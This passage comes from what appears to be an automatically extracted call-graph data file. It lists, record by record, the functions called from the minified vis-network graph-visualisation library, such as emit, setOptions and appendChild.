"calls", "source": "static/js/vis-network.min.js", "target": "_performEditEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSelectedNodeIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSelectedEdgeIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createWrappers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createEditButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_removeManipulationDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_cleanupDOMEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_cleanupTemporaryNodesAndEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_unbindTemporaryUIs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_unbindTemporaryEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onDrag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_performEditEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_performEditEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateEdgeType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getNewTargetNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onDrag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_cleanupTemporaryNodesAndEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_performAddEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateEdgeType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDistances"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createL_matrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createK_matrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createE_matrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getHighestEnergyNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_moveNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getEnergy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateE_matrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "validate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setModuleOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_isClusteredNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_isClusteredEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateVisibleIndices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateValueRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateValueRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setValueRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 